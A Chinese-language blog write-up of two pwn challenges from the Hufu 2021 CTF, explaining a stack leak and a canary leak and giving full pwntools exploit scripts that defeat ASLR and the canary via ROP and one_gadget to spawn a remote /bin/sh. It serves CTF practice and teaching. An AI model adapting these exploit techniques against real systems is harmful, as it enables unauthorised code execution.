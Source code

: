 ```yaml
---
layout: article
pageview: true
title: 虎符2021线下Pwn题WP
author: Ch4rc0al

#cover: /img/cover.jpg
categories:
  - WriteUps
tags:
  - Pwn 
  - CTF
# nolastmod: true
---
```


<!--more-->

## jdt

>    Arch:     amd64-64-little  
>    RELRO:    Full RELRO  
>    Stack:    Canary found  
>    NX:       NX enabled  
>    PIE:      PIE enabled  

题目在栈上操作，代码审计发现虽然只能创建16个book，但可以edit和show第17个book，会打印出rbp附近内容。

我们获取并利用`__libc_start_main_ret`的真实地址来得到远程libc版本和libc基址，网上下载libc文件得到`one_gadget`偏移，修改ret为`ong_gadget`即可，需要注意的一点是我们需要在栈中填充一定的字符才能打印出地址来。
```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

def create(p,a,n,d):
    sh.sendlineafter("Choice: ","1")
    sh.sendlineafter("Price?",p)
    sh.sendlineafter("Author?",a)
    sh.sendlineafter("Book's name?",n)
    sh.sendlineafter("Description?",d)
    
def edit(index,choice,data):
    sh.sendlineafter("Choice: ","2")
    sh.sendlineafter("idx?",str(index))
    sh.sendlineafter("Choice: ",str(choice))
    if(choice==1):
       sh.sendafter("Price?",data)
    elif(choice==2):
        sh.sendafter("Author?",data)
    elif(choice==3):
        sh.sendafter("Book's Name?",data)
    elif(choice==4):
        sh.sendafter("Description?",data)

def show(index):
    sh.sendlineafter("Choice: ","3")
    sh.sendlineafter("idx?",str(index))
    #sh.recv()

def sell(index):
    sh.sendlineafter("Choice: ","4")
    sh.sendlineafter("idx?",str(index))

#sh=process('./jdt')
sh=remote('dawnaa.cn',9001)
elf=ELF('./jdt')
libc=ELF('./jdt_libc')
for i in range(0,16):
    create(str(i),'aaa','bbb','ccc')

edit(16,2,"aaaaaaaa")
show(16)
sh.recvuntil("Author: ")
libc_start_main_ret=u64(sh.recv()[8:14]+"\x00\x00")

libc_base=libc_start_main_ret-libc.symbols['__libc_start_main']-231
ogg=libc_base+0x45226
edit(16,3,'aaaaaaaa'+p64(ogg))
print hex(libc_start_main_ret)
print hex(libc_base)
print hex(ogg)
show(16)
sh.send('5')
sh.interactive()

'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''

```

---
## tls
>    Arch:     amd64-64-little  
>    RELRO:    Full RELRO  
>    Stack:    Canary found  
>    NX:       NX enabled  
>    PIE:      No PIE (0x400000)  

vuln函数运行在线程中，不影响我们正常做题，gdb调试时用`thread`命令切换至线程调试即可

依然是栈题，给出了libc，审计代码发现pos没有规定范围，我们可以修改一开始设定的size并输出calc来达到泄露`canary`的目的，一开始我们需要将`rbp-16`清为0。

泄露`canary`后，我们就可以构造`rop`链用`puts`来输出真实地址，最终将ret改为`one_gadget`即可。

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
sh=remote('dawnaa.cn',9003)
#sh=process("./tls")#env = {"LD_PRELOAD" : "./tls_libc"})
elf=ELF("./tls")
libc=ELF("./tls_libc")
'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
sh.sendlineafter("How many? ","1")
sh.sendlineafter(" = ","0")

sh.sendlineafter("Your choice: ","1")
sh.sendlineafter("Please input pos: ","54")
sh.sendlineafter("Your choice: ","2")
sh.sendlineafter("Please input new number: ","0")

sh.sendlineafter("Your choice: ","1")
sh.sendlineafter("Please input pos: ","-4")
sh.sendlineafter("Your choice: ","2")
sh.sendlineafter("Please input new number: ","56")
sh.sendlineafter("Your choice: ","3")
sh.recvuntil("result = ")
canary=int(sh.recvline()[:-1],10)
print hex(canary)

pop_rdi=0x401293
sh.sendlineafter("Your choice: ","4")
payload='a'*0x38+p64(canary)+'bbbbbbbb'+p64(pop_rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(0x400dc4)
sh.sendlineafter("Oh!What is your name? ",payload)
sh.recvuntil("GoodBye.")
sh.recvuntil("a"*24)
sh.recvuntil("\n")
puts_got=u64(sh.recvline()[:6].ljust(8,'\x00'))
print hex(puts_got)
libc_base=puts_got-libc.symbols['puts']
print hex(libc_base)
ogg=libc_base+0x4526a
print hex(ogg)
payload='a'*0x38+p64(canary)+'bbbbbbbb'+p64(ogg)
sh.sendlineafter("How many? ","1")
sh.sendlineafter(" = ","0")
sh.sendlineafter("Your choice: ","4")
sh.sendlineafter("Oh!What is your name? ",payload)
sh.interactive()


```
